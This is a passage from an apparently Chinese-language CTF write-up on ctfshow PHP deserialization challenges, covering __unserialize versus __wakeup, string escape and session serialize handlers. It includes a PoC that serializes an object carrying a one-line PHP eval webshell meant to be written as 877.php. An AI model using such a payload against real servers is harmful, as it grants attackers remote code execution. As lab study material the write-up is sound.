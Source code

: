 注意点是 `__unserialize` 

>注意:
>如果类中同时定义了 __unserialize() 和 __wakeup() 两个魔术方法，则只有 __unserialize() 方法会生效，__wakeup() 方法会被忽略。
>注意:
>此特性自 PHP 7.4.0 起可用。

username为877.php 在 destruct 中进行比较时存在弱比较

poc:

```php
<?php
class ctfshowvip{
    public $username;
    public $password;

    public function __construct($u,$p){
        $this->username=$u;
        $this->password=$p;
    }
}
$a=new ctfshowvip('877.php','<?php eval($_POST[a]);?>');
echo serialize($a);

```





---
# 262(反序列化字符串逃逸)
[反序列化字符串逃逸](https://blog.csdn.net/weixin_45669205/article/details/114163197)

---

# 263(session反序列化)
https://blog.csdn.net/qq_43431158/article/details/99544797

www.zip源码泄露

inc.php:
>在PHP中默认使用的是PHP引擎，如果要修改为其他的引擎，只需要添加代码ini_set('session.serialize_handler', '需要设置的引擎')


![在这里插入图片描述](https://img-blog.csdnimg.cn/20210402163624428.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)


查看inc.php，其中ini_set('session.serialize_handler', 'php');表明使用的是`php引擎`，与默认的是不同的。因此想到 session反序列化

session.serialize_handler( `5.5.4前默认是php；5.5.4后改为php_serialize`)存在以下几种

>php_binary 键名的长度对应的ascii字符+键名+经过serialize()函数序列化后的值

>php: 键名+`竖线`（|）+经过serialize()函数处理过的值
